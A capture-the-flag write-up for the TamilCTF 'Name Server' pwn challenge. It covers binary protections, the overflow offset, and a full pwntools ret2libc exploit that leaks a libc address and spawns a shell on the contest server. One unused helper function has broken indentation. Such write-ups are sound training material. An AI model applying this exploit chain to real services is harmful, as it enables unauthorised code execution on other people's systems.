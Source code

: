 # TamilCTF

# NAME SEVER 214 Points ,58 solves


## Checksec Output
```bash
╭─ ~/Desktop/Tamilctf/nameserver/nameserver │ sam0x@parrot                                                                                                                                 ✔ 
╰─ checksec name-serv 
[*] '/home/sam0x/Desktop/Tamilctf/nameserver/nameserver/name-serv'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```



## Analysing the binary on Ghidra



![screenshot](./Pasted image 20210930131942.png)

#### There is no input bound checking 
#### NX is enabled so no shellcoding
#### We can use basic ROP chaining attack to exploit this

## Exploiting

#### TO FIND / CONSTRAINS
           
The lic version is unknown 
			
*since we  know it's a 64 bit binary we just cant directly modify the rsp *
*We cant overwrite RSP with 8 byte value , only 6 Bytes can be used else we get general protextion error * (Canonical and non canonical address comes to play )*
#### Using GEF & finding offset

![[Pasted image 20210930134637.png]]


*we overflow the rbp after 32 bytes *
*so to overwrite the rsp we neet to overwrite rbp +6 *
*i.e we overflow rbp after 32 bytes then the rbp value to rsp value*
*offset = 40*

## The exploitation part



      from pwn import *

      offset = b'A'*40

      ##pwntools context

      context.update(arch='amd64', os='linux')
      p=remote('3.97.113.25', 9001)
      # p=process('name_server_patched')
      elf=ELF('./name-serv',False)
      rop=ROP(elf)



      ##leaking GOT address
      puts_plt=elf.plt['puts']
      puts_got=elf.got['puts']
      main_plt=elf.symbols['main']
      pop_rdi= (rop.find_gadget(['pop rdi', 'ret']))[0]
      ret= (rop.find_gadget(['ret']))[0]


      payload = offset +p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_plt) 

      p.recvuntil(b':')
      p.sendline(payload)
      recieved = p.recvline().strip()

      # Parse leaked address

      log.info(f"Len rop1: {len(payload)}")
      leak = u64(recieved.ljust(8, b"\x00"))
      log.info("libc address of puts :" + hex(leak))

      ##setting up libc base

      libc=ELF('libc6_2.31-0ubuntu9_amd64.so')
      libc.address = leak - libc.symbols['puts'] #Save libc base
      log.info("libc base @ %s" % hex(libc.address))


      ##Systm(/bin/sh)Payload

      bin_sh = next(libc.search(b"/bin/sh\x00"))
      system=libc.symbols['system']

      log.info("Bin/sh :" + (hex(bin_sh)))
      log.info("System :" + (hex(system)))


      def generate_payload_aligned(ropp):
        payload1 = offset + ropp
          if (len(payload1) % 16) == 0:
          return payload1

          else:
               payload2 = offset + p64(ret) + ropp

           if (len(payload2) % 16) == 0:
                   log.info("Payload aligned successfully")
                   return payload2
               else:
                   log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
                   return payload1

      payload2= offset + p64(ret)+p64(pop_rdi)+p64(bin_sh)+p64(system)

      log.info("length of payload2 is "  + str(len(payload2)))
      print(p.recvuntil(b':'))
      p.sendline(payload2)
      p.interactive()


*WE GET THE FLAG *
## TamilCTF{ReT_1s_M0rE_p0wErFu1_a5_LIBC}

